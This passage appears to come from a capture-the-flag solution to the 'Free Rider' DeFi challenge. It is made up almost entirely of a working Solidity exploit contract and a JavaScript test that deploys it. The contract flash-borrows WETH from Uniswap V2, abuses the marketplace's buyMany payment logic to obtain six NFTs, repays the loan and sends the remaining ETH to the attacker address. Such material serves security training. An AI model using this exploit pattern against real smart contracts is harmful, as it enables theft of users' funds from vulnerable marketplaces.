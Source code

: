 ```solidity
            INFT(marketplace.token()).safeTransferFrom(address(this), _buyer, i);
        }

        // send all the ETH received to the attacker address
        (bool success,) = _attacker.call{value: address(this).balance}("");   
        assert(success);

    }

    function uniswapV2Call(address, uint, uint, bytes calldata) external {
        address token0 = IUniswapV2Pair(msg.sender).token0(); 
        address token1 = IUniswapV2Pair(msg.sender).token1(); 
        assert(msg.sender == factory.getPair(token0, token1)); 

        // deposit WETH to get (15) ETH
        IWETH(token0).withdraw(price);

        uint[] memory tokenIds = new uint[](6);
        for (uint i=0; i<tokenIds.length; i++) {
            tokenIds[i] = i;
        }

        // offer 15 ETH for each token
        marketplace.buyMany{value: price}(tokenIds);

        // amount + fee
        uint256 amount = price + (price * 3 / 997) + 1;
        IWETH(token0).deposit{value: amount}();
        assert(IWETH(token0).transfer(msg.sender, amount));

    }
  
    receive() external payable {}

    function onERC721Received(address, address, uint256, bytes memory) external pure returns (bytes4) {
        return this.onERC721Received.selector;
    }

}

```

`free-rider.challenge.js`:
```javascript

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */

        const attack = await (await ethers.getContractFactory('AttackFreeRider', attacker))
            .deploy(NFT_PRICE, this.uniswapFactory.address, this.marketplace.address, this.token.address, this.weth.address);

        await attack.connect(attacker).run(attacker.address, this.buyerContract.address);

        expect(await ethers.provider.getBalance(attacker.address)).to.be.gt(MARKETPLACE_INITIAL_ETH_BALANCE);

    });

```
